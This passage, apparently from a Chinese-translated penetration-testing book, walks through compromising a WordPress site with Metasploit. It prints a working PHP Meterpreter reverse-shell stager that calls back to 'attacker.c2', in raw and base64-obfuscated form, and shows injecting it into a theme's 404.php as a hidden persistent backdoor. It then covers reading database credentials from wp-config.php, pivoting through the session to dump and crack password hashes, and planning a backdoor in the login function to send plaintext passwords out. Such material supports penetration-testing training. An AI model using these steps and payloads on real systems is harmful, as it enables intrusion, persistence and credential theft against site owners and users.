Module options (exploit/unix/webapp/wp_admin_shell_upload):

 Name       Current Setting       Required  Description
 ----       ---------------       --------  -----------
 PASSWORD  **spongebob**
       yes       The WordPress password to authenticate with
 Proxies                          no        A proxy chain of formattype:host:port[,type:host:port][...]
 RHOST      cookingwithfire.local  yes        The target address
 RPORT      80                    yes       The target port (TCP)
 SSL        false                 no        Negotiate SSL/TLS for outgoing connections
 TARGETURI  /                     yes       The base path to the WordPress application
USERNAME **mary** yes       The WordPress username to authenticate with
 VHOST                            no        HTTP server virtual host
```

在我们能够启动漏洞并希望能够拿到 shell 之前，有一些选项需要填入正确的信息。

让我们通过 `run` 命令执行 `exploit` 模块：

```
**msf exploit(unix/webapp/wp_admin_shell_upload) > run**

[*] Started reverse TCP handler on 10.0.5.42:4444
[*] Authenticating with WordPress using mary:spongebob...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
**[*] Executing the payload at /wp-content/plugins/ydkwFvZLIl/rtYDipUTLv.php...**
[*] Sending stage (37543 bytes) to 172.17.0.3
**[*] Meterpreter session 6 opened** (10.0.5.42:4444 -> 172.17.0.3:36670)
[+] Deleted rtYDipUTLv.php
[+] Deleted ydkwFvZLIl.php
[+] Deleted ../ydkwFvZLIl
meterpreter >
```

看起来该模块成功运行并启动了一个反向 Meterpreter 会话返回到我们的攻击机器。Metasploit 已经显示了 `meterpreter` 提示符，现在我们可以在目标机器上执行命令。

```
meterpreter > **sysinfo**
Computer    : 71f92e12765d
OS          : Linux 71f92e12765d 4.14.0 #1 SMP Debian 4.14.17 x86_64
Meterpreter : php/linux

meterpreter > **getuid**
Server username: www-data (33)
meterpreter >
```

虽然我们确实有访问权限，但这个 shell 存在一个问题。它不会保持持久性。如果服务器重启，Meterpreter 会话将会中断。如果 `mary` 更改了密码，我们将完全失去对应用程序的访问权限。

我们需要更具创意地保持对站点的访问。幸运的是，由于 WordPress 是如此可定制，提供了插件和主题的文件编辑器。如果我们能够修改主题文件并注入反向 shell 代码，每次通过 Web 调用它时，我们将拥有访问权限。如果管理员明天更改了密码，我们仍然可以重新登录。

在 WordPress 管理面板中，**主题** 部分链接到 **编辑器**，可以用来修改任何已安装主题的 PHP 文件。最好选择一个已禁用的主题，以防我们修改的是一个频繁访问的文件，用户会注意到有问题。

Twenty Seventeen 是 WordPress 的默认主题，在此安装中，它不是主要主题。我们可以修改 `404.php` 页面并在其中注入我们的代码，而不会引起任何人的注意。



图 12.7：WordPress 主题文件编辑器

我们可以通过加载 `payload/php/meterpreter/reverse_tcp payload` 模块来使用 Metasploit 生成一个新的 PHP 反向 shell。`LHOST` 选项应该与我们的本地主机名或 IP 匹配，而 `LPORT` 将是 Metasploit 用来监听传入反向 shell 的本地端口。一旦目标被利用，它将通过这个端口回连给我们。

在 Metasploit 控制台中，我们可以使用 `use` 命令加载它，就像之前一样：

```
**msf > use payload/php/meterpreter/reverse_tcp**
**msf payload(php/meterpreter/reverse_tcp) > options**

**Module options (payload/php/meterpreter/reverse_tcp):**

 **Name   Current Setting  Required  Description**
 **----   ---------------  --------  -----------**
 **LHOST  attacker.c2      yes       The listen address**
 **LPORT  4444             yes       The listen port**

**msf payload(php/meterpreter/reverse_tcp) >**

```

有效载荷 `php/meterpreter/reverse_tcp` 是一个用 PHP 编写的 Meterpreter 暂存器，尽管从稳定性角度来看它并不理想，但它确实提供了典型 Meterpreter 反向 shell 的大部分功能。

在 Metasploit 中加载有效载荷时，与使用 MSFvenom 工具生成有效载荷不同，我们可以使用`generate`命令。该命令可以显示创建新有效载荷的所有可用选项。

```
**msf payload(php/meterpreter/reverse_tcp) > generate -h**
**Usage: generate [options]**

**Generates a payload.**

**OPTIONS:**

 **-E        Force encoding.**
 **-b <opt>  The list of characters to avoid: '\x00\xff'**
 **-e <opt>  The name of the encoder module to use.**
 **-f <opt>  The output file name (otherwise stdout)**
 **-h        Help banner.**
 **-i <opt>  the number of encoding iterations.**
 **-k        Keep the template executable functional**
 **-o <opt>  A comma separated list of options in VAR=VAL format.**
 **-p <opt>  The Platform for output.**
 **-s <opt>  NOP sled length.**
 **-t <opt>  The output format: bash,c,csharp,dw,dword,hex,java,js_be,js_le,num,perl,pl,powershell,ps1,py,python,raw,rb,ruby,sh,vbapplication,vbscript,asp,aspx,aspx-exe,axis2,dll,elf,elf-so,exe,exe-only,exe-service,exe-small,hta-psh,jar,jsp,loop-vbs,macho,msi,msi-nouac,osx-app,psh,psh-cmd,psh-net,psh-reflection,vba,vba-exe,vba-psh,vbs,war**
 **-x <opt>  The executable template to use**

```

对于 PHP 有效载荷，这些选项中的大多数不会产生影响。我们可以生成原始有效载荷，它就是暂存器的 PHP 代码。我们不需要将其写入文件；它通常非常小，我们可以直接从终端输出中复制。

```
msf payload(php/meterpreter/reverse_tcp) > generate -t raw
**/*<?php /**/ error_reporting(0); $ip = 'attacker.c2'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();**

msf payload(php/meterpreter/reverse_tcp) >
```

`generate` 命令的结果是一个很长的、被压缩的 PHP 代码片段，我们可以通过使用 `-E` 选项将其编码为 Base64 进一步混淆：

```
msf payload(php/meterpreter/reverse_tcp) > generate -t raw -E
**eval(base64_decode(Lyo8P3BocCAvKiovIGVycm9yX3JlcG9ydGluZygwKTsgJGlwID0gJ2F0dGFja2VyLmMyJzsgJHBvcnQgPSA0NDQ0OyBpZiAoKCRmID0gJ3N0cmVhbV9zb2NrZXRfY2xpZW50JykgJiYgaXNfY2FsbGFibGUoJGYpKSB7ICRzID0gJGYoInRjcDovL3skaXB9OnskcG9ydH0iKTsgJHNfdHlwZSA9ICdzdHJlYW0nOyB9IGlmICghJHMgJiYgKCRmID0gJ2Zzb2Nrb3BlbicpICYmIGlzX2NhbGxhYmxlKCRmKSkgeyAkcyA9ICRmKCRpcCwgJHBvcnQpOyAkc190eXBlID0gJ3N0cmVhbSc7IH0gaWYgKCEkcyAmJiAoJGYgPSAnc29ja2V0X2NyZWF0ZScpICYmIGlzX2NhbGxhYmxlKCRmKSkgeyAkcyA9ICRmKEFGX0lORVQsIFNPQ0tfU1RSRUFNLCBTT0xfVENQKTsgJHJlcyA9IEBzb2NrZXRfY29ubmVjdCgkcywgJGlwLCAkcG9ydCk7IGlmICghJHJlcykgeyBkaWUoKTsgfSAkc190eXBlID0gJ3NvY2tldCc7IH0gaWYgKCEkc190eXBlKSB7IGRpZSgnbm8gc29ja2V0IGZ1bmNzJyk7IH0gaWYgKCEkcykgeyBkaWUoJ25vIHNvY2tldCcpOyB9IHN3aXRjaCAoJHNfdHlwZSkgeyBjYXNlICdzdHJlYW0nOiAkbGVuID0gZnJlYWQoJHMsIDQpOyBicmVhazsgY2FzZSAnc29ja2V0JzogJGxlbiA9IHNvY2tldF9yZWFkKCRzLCA0KTsgYnJlYWs7IH0gaWYgKCEkbGVuKSB7IGRpZSgpOyB9ICRhID0gdW5wYWNrKCJO.bGVuIiwgJGxlbik7ICRsZW4gPSAkYVsnbGVuJ107ICRiID0gJyc7IHdoaWxlIChzdHJsZW4oJGIpIDwgJGxlbikgeyBzd2l0Y2ggKCRzX3R5cGUpIHsgY2FzZSAnc3RyZWFtJzogJGIgLj0gZnJlYWQoJHMsICRsZW4tc3RybGVuKCRiKSk7IGJyZWFrOyBjYXNlICdzb2NrZXQnOiAkYiAuPSBzb2NrZXRfcmVhZCgkcywgJGxlbi1zdHJsZW4oJGIpKTsgYnJlYWs7IH0gfSAkR0xPQkFMU1snbXNnc29jayddID0gJHM7ICRHTE9CQUxTWydtc2dzb2NrX3R5cGUnXSA9ICRzX3R5cGU7IGlmIChleHRlbnNpb25fbG9hZGVkKCdzdWhvc2luJykgJiYgaW5pX2dldCgnc3Vob3Npbi5leGVjdXRvci5kaXNhYmxlX2V2YWwnKSkgeyAkc3Vob3Npbl9ieXBhc3M9Y3JlYXRlX2Z1bmN0aW9uKCcnLCAkYik7ICRzdWhvc2luX2J5cGFzcygpOyB9IGVsc2UgeyBldmFsKCRiKTsgfSBkaWUoKTs));**

**msf payload(php/meterpreter/reverse_tcp) >**

```

这实际上取决于注入点的允许范围。我们可能需要对暂存的 PHP 代码进行 Base64 编码，以绕过一些基础的入侵检测系统或杀毒软件。如果有人查看源代码，编码后的有效载荷在格式正确的代码中确实看起来更可疑，因此我们需要仔细考虑我们想要多隐蔽。

为了确保我们的代码更好地与 `404.php` 页面中的其他内容融合，我们可以使用源代码美化器，如**CyberChef**。我们将未进行 Base64 编码的原始 PHP 代码输入并通过 CyberChef 工具处理。

在 **Recipe** 面板中，我们可以添加 **Generic Code Beautify** 操作。我们的原始 PHP 代码将放入 **Input** 部分。要美化代码，我们只需要点击屏幕底部的 **Bake!**，如图所示：



图 12.8：CyberChef 代码美化器

### 注

CyberChef 是一款非常棒的工具，具有众多功能。代码美化只是它能做的事情的冰山一角。CyberChef 由 GCHQ 开发，并可免费在线使用或下载，网址为：[`gchq.github.io/CyberChef`](https://gchq.github.io/CyberChef)

此时，我们可以获取美化后的负载并直接将其粘贴到 WordPress 主题编辑器中。我们需要将代码添加到`get_header()`函数调用之前。这是因为`404.php`本应在另一个页面中通过`include()`加载，而该页面加载了此函数的定义。当我们直接调用`404`页面时，`get_header()`将未定义，PHP 将抛出致命错误。我们的 Shell 代码将无法执行。我们在修改目标内容时必须注意这些问题。理想情况下，如果时间允许，我们会设置一个类似的测试环境，检查应用程序如何处理我们的修改。

Meterpreter 负载将非常适合在第 12 行的`get_header()`函数上方，如下所示：



图 12.9：404.php 页面编辑器负载注入位置

在这个位置添加代码应该可以防止任何 PHP 错误干扰我们的恶意代码。



图 12.10：我们的恶意负载与其他的 404.php 文件融为一体

在执行我们刚刚注入的后门之前，我们必须确保在我们的攻击机器上运行处理程序，以便接收来自受害者的连接。

为此，我们在 Metasploit 控制台中加载`exploit/multi/handler`模块，如下所示：

```
**msf > use exploit/multi/handler**

```

我们需要使用`set PAYLOAD`命令指定处理程序应该为哪种负载类型进行配置：

```
**msf exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp**
**msf exploit(multi/handler) >**

```

我们必须确保负载选项与我们之前生成 PHP 代码时选择的选项匹配。这两个选项也可以通过`set`命令配置：

```
**msf exploit(multi/handler) > options**

**Payload options (php/meterpreter/reverse_tcp):**

 **Name   Current Setting  Required  Description**
 **----   ---------------  --------  -----------**
 **LHOST  attacker.c2      yes       The listen address**
 **LPORT  4444             yes       The listen port**

**Exploit target:**

 **Id  Name**
 **--  ----**
 **0   Wildcard Target**

```

我们还可以配置处理程序以接受多个连接并在后台运行。新会话将自动创建；我们不需要每次都运行处理程序。

`ExitOnSession`选项可以设置为`false`，如下所示：

```
**msf exploit(multi/handler) > set ExitOnSession false**
**ExitOnSession => false**

```

我们现在可以运行带有`-j`选项的处理程序，这将把它发送到后台，准备接受来自受害者的连接：

```
**msf exploit(multi/handler) > run -j**
**[*] Exploit running as background job 2.**

**[*] Started reverse TCP handler on attacker.c2:4444**
**msf exploit(multi/handler) >**

```

被植入后门的`404.php`文件位于目标应用程序的`wp-content/themes/twentyseventeen/`文件夹中，可以直接通过`curl`调用。这将执行我们的后门并生成一个新的 Meterpreter 会话：

```
**root@kali:~# curl http://cookingwithfire.local/wp-content/themes/twentyseventeen/404.php**
**[...]**

```

`curl`命令似乎会挂起，但几秒钟后，我们获得了 Shell 访问权限。我们可以看到受害者建立了一个 Meterpreter 会话，我们可以使用`sessions -i`命令与之交互，如下所示：

```
[*] Sending stage (37543 bytes) to 172.17.0.3
**[*] Meterpreter session 8 opened** (10.0.5.42:4444 -> 172.17.0.3:36194)

msf exploit(multi/handler) > **sessions -i 8**
[*] Starting interaction with 8...

meterpreter >
```

再次，我们可以通过 Meterpreter 会话直接向目标发出命令：

```
meterpreter > **sysinfo**
Computer    : 0f2dfe914f09
OS          : Linux 0f2dfe914f09 4.14.0 #1 SMP Debian 4.14.17 x86_64
Meterpreter : php/linux

meterpreter > **getuid**
Server username: www-data (33)
meterpreter >
```

通过 Shell 访问，我们可以尝试提升权限、横向移动，甚至提取更多的凭证。

## 凭证外泄

设想另一种情况，我们已经利用网站的一个漏洞，获得了对服务器的 shell 访问权限。也许 WordPress 网站本身已经打了补丁，且用户密码很复杂，但如果 WordPress 安装在共享系统上，攻击者通过与网站无关的组件获得 shell 访问权限并不罕见。也许我们设法上传了一个 Web Shell，甚至通过命令注入漏洞迫使 Web 服务器反向连接回我们的机器。在之前的场景中，我们猜到了 `mary` 的密码，但如果我们想要更多呢？如果博客管理员 `msmith` 有权限访问其他系统呢？

密码重用是一个可能不会很快消失的问题，获取站点管理员的密码具有重要价值。相同的密码可能适用于 VPN 或 OWA，甚至是应用服务器上的 root 用户。

大多数现代 Web 服务器软件，如 Apache2、NGINX 和 IIS，都以低权限用户身份运行应用程序，因此 PHP Shell 对底层服务器的访问权限有限。虽然 Web 用户无法对服务器本身做太多操作，但它可以与站点源代码交互，包括 CMS 实例的源代码。我们可能会寻找使用本地漏洞提升权限的方法，但如果不成功或时间紧迫，可能更合理的做法是对站点代码后门并收集凭证。

在前面的场景中，我们通过用户 `mary` 获得了 shell 访问权限。进入后，我们可以检查 `wp-config.php` 文件，寻找可能的注入位置。我们可以看到 WordPress 正常运行所需的数据库凭证。这可能是我们的第一个目标，因为所有 WordPress 凭证都存储在那里，尽管是哈希化的。如果我们能提取到这些哈希密码，可能可以离线破解它们。配置文件对于 CMS 来说是常见的，如果我们有读取应用服务器的权限，这些文件应该是我们首批收集的目标：

```
meterpreter > cat /var/www/html/wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
[...]
 * This file contains the following configurations:
 *****
 *** * MySQL settings**
 *** * Secret keys**
 *** * Database table prefix**
 *** * ABSPATH**
 *****
 *** @link https://codex.WordPress.org/Editing_wp-config.php**
 *****
 *** @package WordPress**
 ***/**

**// ** MySQL settings - You can get this info from your web host ** //**
**/** The name of the database for WordPress */**
**define('DB_NAME', 'WordPress');**

**/** MySQL database username */**
**define('DB_USER', '**
**WordPress');**

**/** MySQL database password */**
**define('DB_PASSWORD', 'ZXQgdHUgYnJ1dGU/');**

**/** MySQL hostname */**
**define('DB_HOST', '127.0.0.1:3306');**

[...]
```

我们可以获取这些明文凭证，并使用 MySQL 客户端连接到数据库。接下来，我们可以转储用户表和其中的任何哈希值。在你进行渗透测试时，你可能会遇到更多强化过的 MySQL 实例，这些实例通常不允许来自任何远程主机的登录。MySQL 实例也可能被防火墙保护，或只监听 `127.0.0.1`，我们可能无法从外部进行连接。

为了绕过这些限制，我们必须通过先前建立的反向 Shell 会话来转发连接：

```
**msf payload(php/meterpreter/reverse_tcp) > sessions**

**Active sessions**
**===============**

 **Id  Name  Type              Information       Connection**
 **--  ----  ----              -----------       ----------**
 **8         meterpreter php/                    www-data @ linux                               0f2dfe914f09  10.0.5.42:4444 ->** 
**172.17.0.3:36194 (172.17.0.3)**

```

首先，我们需要在 Metasploit 中添加一个路由，通过一个活跃的 Meterpreter 会话转发所有连接。在这种情况下，我们想连接到在服务器回环地址 `127.0.0.1` 上监听的 MySQL 实例。

Metasploit 的`route add`命令要求我们指定一个网络范围和 Meterpreter 会话 ID。在我们的例子中，我们只会针对`127.0.0.1`地址，因此需要使用`/32`。我们还希望通过会话`8`发送所有数据包：

```
**msf payload(php/meterpreter/reverse_tcp) > route add 127.0.0.1/32 8**
**[*] Route added**
**msf payload(php/meterpreter/reverse_tcp) > route print**

**IPv4 Active Routing Table**
**=========================**

 **Subnet             Netmask            Gateway**
 **------             -------            -------**
 **127.0.0.1           255.255.255.255    Session 8**

```

要利用这个路径，我们需要在 Metasploit 中启动一个代理服务器，然后可以与 ProxyChains 一起使用，将数据包通过我们的 Meterpreter 会话发送。

`auxiliary/server/socks4a`模块将允许我们在攻击机器上启动一个 SOCKS4 服务器，并且使用先前添加的路由，任何发送到`127.0.0.1`的流量将通过我们的会话转发。

让我们加载模块并设置`SRVHOST`和`SRVPORT`，如图所示：

```
**msf payload(php/meterpreter/reverse_tcp) > use auxiliary/server/socks4a**
**msf auxiliary(server/socks4a) > options**

**Module options (auxiliary/server/socks4a):**

 **Name     Current Setting  Required  Description**
 **----     ---------------  --------  -----------**
 **SRVHOST  0.0.0.0          yes       The address to listen on**
 **SRVPORT  1080             yes       The port to listen on.**

**msf auxiliary(server/socks4a) > run**
**[*] Auxiliary module running as background job 1.**
**[*] Starting the socks4a proxy server**

```

我们应该能够通过执行 Metasploit 的`jobs`命令看到我们在后台运行的 SOCKS 服务器：

```
**msf auxiliary(server/socks4a) > jobs**

**Jobs**
**====**

 **Id  Name                 Payload                Payload opts**
 **--  ----                 -------                ------------**
 **0   Exploit: multi/      php/meterpreter/       tcp://attackhandler              reverse_tcp            er.c2:4444**
 **1    Auxiliary: server/socks4a** 

```

接下来，ProxyChains 配置文件`/etc/proxychains.conf`应该修改为指向我们新创建的 SOCKS 服务器，如下所示：

```
root@kali:~# tail /etc/proxychains.conf
[...]
#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
**socks4     127.0.0.1 1080**

```

最后，我们在 Kali 终端中使用`proxychains`二进制文件，通过`wp-config.php`中的凭据，将 MySQL 客户端连接包装到目标 MySQL 实例，如下所示：

```
root@kali:~# proxychains mysql -h127.0.0.1 -uWordPress -p
ProxyChains-3.1 (http://proxychains.sf.net)
Enter password: **ZXQgdHUgYnJ1dGU/**
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:3306-<><>-OK
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 28
Server version: 5.6.37 MySQL Community Server (GPL)

**Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.**

```

这个 WordPress 数据库用户可能对服务器的访问权限有限，但对我们的目的来说应该足够了。我们可以看到 WordPress 数据库，并且能够枚举其表和数据：

```
**MySQL [(none)]> show databases;**
**+--------------------+**
**| Database           |**
**+--------------------+**
**| information_schema |**
**| WordPress          |**
**| test               |**
**+--------------------+**
**3 rows in set (0.00 sec)**

**MySQL [none]> show tables from WordPress;**
**+-----------------------------+**
**| Tables_in_WordPress |**
**+-----------------------------+**
**| wp_commentmeta              |**
**| wp_comments                 |**
**| wp_links                    |**
**| wp_options                  |**
**| wp_postmeta                 |**
**| wp_posts                    |**
**| wp_term_relationships       |**
**| wp_term_taxonomy            |**
**| wp_termmeta                 |**
**| wp_terms                    |**
**| wp_usermeta                 |**
**| wp_users                    |**
**+-----------------------------+**
**12 rows in set (0.00 sec)**

```

我们需要使用一个简单的 MySQL 查询，抓取存储在`wp_users`表中的用户名和哈希值：

```
**MySQL [none]> select id, user_login, user_pass, user_email from WordPress.wp_users where id=1;**
**+----+------------+------------------------+------------------+**
**| id | user_login | user_pass              | user_email       |**
**+----+------------+------------------------+------------------+**
**|  1 | msmith     | $P$BX5YqWaua3jKQ1OBFgui| msmith@cookingwit|**
**|    |            | UhBxsiGutK/            | hfire.local      |**
**+----+------------+------------------------+------------------+**
**1 row in set (0.01 sec)**

```

拿到`msmith`的密码哈希后，我们可以在 Kali 机器上运行 John the Ripper 尝试破解它。我们可以将哈希保存到本地，并使用`john`进行破解，如下所示：

```
root@kali:~# cat hashes
**msmith:$P$BX5YqWaua3jKQ1OBFquiUhBxsiGutK/**
root@kali:~# **john hashes --**
**wordlist=~/tools/SecLists/Passwords/darkc0de.txt**
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 0.72% (ETA: 10:24:24) 0g/s 4897p/s 4897c/s 4897C/s 11770..11/9/69
0g 0:00:00:02 1.10% (ETA: 10:25:08) 0g/s 4896p/s 4896c/s 4896C/s 123din7361247iv3..123ducib19
0g 0:00:00:04 1.79% (ETA: 10:25:49) 0g/s 4906p/s 4906c/s 4906C/s 16 HERRERA..16th
0g 0:00:00:20 6.59% (ETA: 10:27:09) 0g/s 4619p/s 4619c/s 4619C/s 4n0d3..4n0m47h3c4
```

根据你的密码破解设备和密码复杂度，这可能需要一些时间。在典型的渗透测试中，这可能并不可行，你可能需要考虑其他替代方案。

获取明文凭据的一个更智能的方法是通过在 CMS 登录系统中植入后门，并在目标用户（或多个用户）登录应用程序时捕获明文凭据。这种攻击要求我们控制的用户能够修改 WordPress 的文件。有些安装可能不允许 Web 服务器用户写入磁盘作为安全措施，但管理员在应用程序生命周期中放宽这一控制也并不罕见。如果我们对目标服务器拥有完整的 root 权限，这个攻击方法也非常有效。正如我之前提到的，捕获明文凭据非常有价值，尤其是当目标是横向移动或敏感数据访问时。

处理身份验证的 WordPress 函数被称为`wp_signon()`，WordPress Codex 对其进行了详细描述：



图 12.11：WordPress 函数参考：wp_signon

`signon` 函数在 `wp-includes/user.php` 的 WordPress 核心文件中定义。代码中有几行用于验证从其他模块传递给该函数的凭证，例如 `wp-login.php`。

我们希望拦截明文凭证，并将其外泄到我们的 C2 服务器，或将其存储在网站的某个地方以便稍后检索，或两者兼有。当然，这两种外泄方法各有利弊。通过网络传输数据可能会被入侵检测系统或出站代理识别为异常流量，但它确保我们在凭证输入后立即获得它们，当然前提是传输没有被阻断。将数据存储在本地则不会引起任何网络监控的注意，但如果服务器管理员仔细查看应用文件系统，服务器上的额外文件可能会引起怀疑。

在 `wp_signon` 函数中，凭证要么通过 `$credentials` 变量传递，要么对于新的登录，通过 PHP 全局变量 `$_POST` 传递。我们可以对这个传入值进行 JSON 编码，然后对结果进行 Base64 编码，最后将其写入磁盘或通过网络发送。这种双重编码主要是为了简化网络传输，同时也稍微混淆了我们外泄的数据。

PHP 提供了两个方便的函数，我们可以将它们注入到 `wp_signon` 函数中，以便快速轻松地外泄 WordPress 凭证。

`file_put_contents()` 允许我们写入磁盘，写入位置是网页用户有权限访问的任何地方。对于 WordPress，特别是因为它允许上传数据，`wp-content/uploads` 通常是可被 Web 服务器写入的。其他 CMS 也会有类似的目录访问权限，我们可以利用这些权限。

```
file_put_contents(**[file to write to]**, **[data to write]**, **FILE_APPEND**);
```

